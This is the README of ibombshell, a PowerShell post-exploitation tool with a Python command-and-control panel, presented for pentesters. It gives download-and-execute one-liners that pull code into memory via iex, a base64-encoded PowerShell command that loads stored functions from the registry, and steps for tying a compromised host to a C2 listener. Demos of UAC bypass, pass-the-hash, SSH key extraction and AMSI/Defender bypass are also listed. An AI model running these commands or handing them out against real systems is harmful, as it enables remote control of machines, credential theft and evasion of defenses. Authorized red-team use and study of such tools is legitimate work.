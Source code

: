 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as _everywhere_.

In addition, _ibombshell_ provides a second execution mode called _Silently_, so the pentester can execute an instance of ibombshell (called _warrior_). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run _ibombshell everywhere_ it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - _PowerShell for every system!_.

To run the _ibombshell silently mode_ you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/Telefonica/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

### ibombshell everywhere in isolated environments

If you need to use ibombshell in isolated environments, you must prepare your computer first in a networked environment. Load all the functions you will need, and use savefunctions to save them in the Windows registry.

Now you can use this base 64 code to get ibombshell:

```[powershell]
powershell.exe -E "JABwAGEAdABoACAAPQAgACcAaABrAGMAdQA6AFwAcwBvAGYAdAB3AGEAcgBlAFwAYwBsAGEAcwBzAGUAcwBcAGkAYgBvAG0AYgBzAGgAZQBsAGwAXABjAG8AbgBzAG8AbABlACcAOwAgAHQAcgB5ACAAewAJAGkAZgAoAHQAZQ
BzAHQALQBwAGEAdABoACAAJABwAGEAdABoACkAIAB7ACAAJABjAG8AbgBzAG8AbABlACAAPQAgACgARwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgACQAcABhAHQAaAApAC4ATgBhAG0AZQA7ACAAYwBkACAAaABrAGMAdQA6
ADsAIAAkAG4AYQBtAGUAIAA9ACAAJABjAG8AbgBzAG8AbABlAC4AcwBwAGwAaQB0ACgAIgBcACIAKQBbAC0AMQBdADsAIAAkAGMAbwBkAGUAIAA9ACAAKAAoAEcAZQB0AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAJABjAG
8AbgBzAG8AbABlACIAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAUAByAG8AcABlAHIAdAB5ACkAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUA
YwB0ACAAewBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcABzAG8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIABAAHsAIgBwAHIAbwBwAGUAcgB0AHkAIgA9ACQAXwA7ACAAIgBWAGEAbAB1AGUAIgAgAD0AIAAoAEcAZQ
B0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAiACQAYwBvAG4AcwBvAGwAZQAiACAALQBOAGEAbQBlACAAJABfACkALgAkAF8AfQB9ACkALgBWAGEAbAB1AGUAOwAgACQAYwBvAGQAZQAgAHwAIABv
AHUAdAAtAHMAdAByAGkAbgBnACAAfAAgAGkAZQB4ADsAIABjADoAOwAgAGMAbwBuAHMAbwBsAGUAOwB9AH0AYwBhAHQAYwBoAHsAdwByAGkAdABlAC0AaABvAHMAdAAgACQARQByAHIAbwByAFsAMABdAH0A"
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/Telefonica/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### _iBombShell: PoC Warrior + Bypass UAC + Pass the hash_

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### _iBombShell: macOS_

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### _ibombshell: Extracting Private SSH Keys on Windows 10_

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### _iBombShell: PoC savefunctions_

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/QM0HufCYOEk/0.jpg)](https://www.youtube.com/watch?v=QM0HufCYOEk)

### _ibombshell - Silently bypass UAC Environment Injection_

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

### _iBombShell - Mocking Trusted Directory_

[![iBombShell - Mocking Trusted Directory](https://img.youtube.com/vi/6iCFS4FkedM/0.jpg)](https://www.youtube.com/watch?v=6iCFS4FkedM)

### _iBombShell - DLL generation_

[![iBombShell - DLL Generation](https://img.youtube.com/vi/I03klvk-DXo/0.jpg)](https://www.youtube.com/watch?v=I03klvk-DXo)

### _iBombShell - AMSI & Windows Defender Bypass_

[![iBombShell - AMSI & Windows Defender Bypass](https://img.youtube.com/vi/wCBLG3CfWMY/0.jpg)](https://www.youtube.com/watch?v=wCBLG3CfWMY)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE. WHENEVER YOU MAKE A CONTRIBUTION TO A REPOSITORY CONTAINING NOTICE OF A LICENSE, YOU LICENSE YOUR CONTRIBUTION UNDER THE SAME TERMS, AND YOU AGREE THAT YOU HAVE THE RIGHT TO LICENSE YOUR CONTRIBUTION UNDER THOSE TERMS. IF YOU HAVE A SEPARATE AGREEMENT TO LICENSE YOUR CONTRIBUTIONS UNDER DIFFERENT TERMS, SUCH AS A CONTRIBUTOR LICENSE AGREEMENT, THAT AGREEMENT WILL SUPERSEDE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

ideaslocas@telefonica.com

